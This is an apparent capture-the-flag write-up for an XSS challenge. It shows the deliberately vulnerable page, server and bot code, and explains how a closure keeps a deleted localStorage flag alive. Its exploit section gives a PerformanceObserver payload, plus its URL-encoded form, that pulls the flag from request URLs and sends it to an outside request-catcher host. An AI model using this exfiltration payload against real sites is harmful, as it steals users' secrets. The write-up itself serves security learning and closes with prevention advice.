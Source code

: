 # XSS Challenge Writeup

## Challenge Overview
This challenge presents a web application vulnerable to XSS with an interesting twist involving JavaScript closures and timing. The goal is to steal a flag that is temporarily stored in localStorage and then continuously sent to a ping endpoint.

## Challenge Files

### index.html
```html
<!DOCTYPE html>
<body>
  <h1>XSS Playground</h1>
  <script>
    (() => {
      const flag = localStorage.getItem("flag") ?? "🚩";
      localStorage.removeItem("flag");
      const fetch = Object.freeze(window.fetch);
      const resource = `/ping?${new URLSearchParams({ flag })}`;
      const options = Object.create(null);
      const fun = () => fetch(resource, options);
      setInterval(fun, 500);
    })();
    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";
    setTimeout(xss, 800);
  </script>
</body>
```

### index.js
```javascript
import express from "express";
import fs from "node:fs";
const html = fs.readFileSync("index.html", { encoding: "utf8" });
express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "base-uri 'none'; frame-ancestors 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .get("/ping", (req, res) => res.type("text").send("pong"))
  .listen(3000);
```

### bot.js
```javascript
import puppeteer from "puppeteer";
const FLAG = process.env.FLAG ?? console.log("No flag") ?? process.exit(1);
const APP_HOST = "web";
const APP_PORT = "3000";
export const APP_URL = `http://${APP_HOST}:${APP_PORT}`;

// Flag format check
if (!/^ASIS{\w+}$/.test(FLAG)) {
  console.log("Bad flag");
  process.exit(1);
}

const sleep = async (ms) => new Promise((resolve) => setTimeout(resolve, ms));

export const visit = async (url) => {
  const browser = await puppeteer.launch({
    headless: "new",
    executablePath: "/usr/bin/chromium",
    args: ["--no-sandbox", "--disable-dev-shm-usage", "--disable-gpu"]
  });
  const context = await browser.createBrowserContext();
  try {
    const page1 = await context.newPage();
    await page1.goto(APP_URL + "/ping", { timeout: 3_000 });
    await page1.evaluate((flag) => {
      localStorage.setItem("flag", flag);
    }, FLAG);
    await sleep(1_000);
    await page1.close();
    const page2 = await context.newPage();
    await page2.goto(url, { timeout: 5_000 });
    await sleep(10_000);
    await page2.close();
  } catch (e) {
    console.error(e);
  }
  await context.close();
  await browser.close();
};
```

## Challenge Analysis

### Key Mechanics
1. The application accepts an XSS payload through the `xss` URL parameter
2. A bot visits the application with these steps:
   - First visits /ping and sets the flag in localStorage
   - Then visits the user-provided URL with the XSS payload
3. The main application:
   - Retrieves flag from localStorage
   - Immediately removes it
   - Creates a frozen fetch function
   - Sets up an interval to send the flag to /ping every 500ms
   - Executes the XSS payload after 800ms

### Security Mechanisms
1. The fetch function is frozen using `Object.freeze()`
2. The flag is immediately removed from localStorage
3. Basic CSP headers are set (though they don't restrict script execution)

### Interesting Timing Sequence
```javascript
// In the IIFE:
const flag = localStorage.getItem("flag")     // 1. Get flag
localStorage.removeItem("flag")               // 2. Remove immediately
// ... setup ping interval ...

// Later:
setTimeout(xss, 800)                         // 3. XSS executes after 800ms
```

## The Vulnerability

The key vulnerability lies in JavaScript closures and the timing of events. Even though the flag is removed from localStorage, it remains accessible through the closure where it was captured in the `resource` variable. This captured value is then repeatedly sent to the /ping endpoint.

## The Exploit

The successful exploit uses the PerformanceObserver API to passively monitor these network requests:

```javascript
const observer = new PerformanceObserver((list) => {
    for (const entry of list.getEntries()) {
        if (entry.name.includes('ping')) {
            fetch('https://noproblem.requestcatcher.com/?' + new URL(entry.name).searchParams.get('flag'));
        }
    }
});
observer.observe({ entryTypes: ['resource'] });
```

URL-encoded payload:
```
http://web:3000/?xss=const%20observer%20%3D%20new%20PerformanceObserver((list)%20%3D%3E%20%7B%20for%20(const%20entry%20of%20list.getEntries())%20%7B%20if%20(entry.name.includes(%27ping%27))%20%7B%20fetch(%27https%3A%2F%2Fnoproblem.requestcatcher.com%2F%3F%27%20%2B%20new%20URL(entry.name).searchParams.get(%27flag%27))%3B%20%7D%20%7D%20%7D)%3B%20observer.observe(%7B%20entryTypes%3A%20%5B%27resource%27%5D%20%7D)%3B
```

### Why This Works
1. PerformanceObserver can monitor network requests without needing to intercept them
2. The flag value persists in the closure even after localStorage clearance
3. The setInterval keeps sending requests containing the flag
4. Our observer captures these requests and extracts the flag

### Failed Approaches
1. Trying to read from localStorage (already cleared)
2. Attempting to override frozen fetch
3. XMLHttpRequest interception

## Key Takeaways
1. JavaScript closures can maintain access to values even after they're "deleted"
2. Passive observation can sometimes bypass active security measures
3. Timing in XSS payloads is crucial
4. Web APIs like PerformanceObserver provide powerful capabilities for monitoring

## Prevention
1. Don't store sensitive data in URLs or request parameters
2. Use secure session management instead of localStorage
3. Implement proper CSP headers to restrict script sources
4. Avoid mixing sensitive data with user-controlled JavaScript execution